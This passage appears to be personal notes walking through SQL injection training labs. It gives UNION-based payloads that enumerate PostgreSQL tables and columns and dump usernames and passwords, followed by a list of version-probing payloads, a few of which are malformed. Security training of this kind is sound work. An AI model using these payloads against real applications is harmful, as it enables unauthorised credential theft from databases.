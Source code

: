 #### Enumerating Tables
- Using the [PostgreSQL documentation](https://www.postgresql.org/docs/current/infoschema-tables.html) we came up with the following payload. This payload will retrieve table name and table type from information schema. 
- So that we can find out what are the tables that are available in this database.

```
' UNION SELECT table_name,table_type FROM information_schema.tables --
```

- As can be seen below, we see a table that does not seem to be default called "users".

![[Pasted image 20220824131222.png]]

#### Enumerating Columns

- We then try to find out what are the columns in the users table and we use the following payload below : 

```
' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name = 'users' --
```

- As can be seen, there are only 2 columns 'username' and 'password'.

![[Pasted image 20220824131629.png]]

### Exploitation
- Hence to exploit this we will retrieve all the rows in the columns by using the following payload.

```
' UNION SELECT username,password FROM users --
```

![[Pasted image 20220824131829.png]]
![[Pasted image 20220824131839.png]]
![[Pasted image 20220824131847.png]]
![[Pasted image 20220824131928.png]]

## SQL injection UNION attack, retrieving multiple values in a single column
- To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 
- The following list of payloads were derived from previous exercises :

```sql
' UNION SELECT null--
' UNION SELECT null,null--
' UNION SELECT null,null,null --

' UNION SELECT banner FROM v$version --
' UNION SELECT null,banner FROM v$version --
' UNION SELECT banner,null FROM v$version--
' UNION SELECT null,null,banner FROM v$version--
' UNION SELECT null,,banner,null FROM v$version--
' UNION SELECT ,banner,null,null FROM v$version--

' UNION SELECT @@version --
' UNION SELECT null,@@version --
' UNION SELECT @@version,null--
' UNION SELECT null,null,@@version--
' UNION SELECT null,@@version,null--
' UNION SELECT @@version,null,null--

```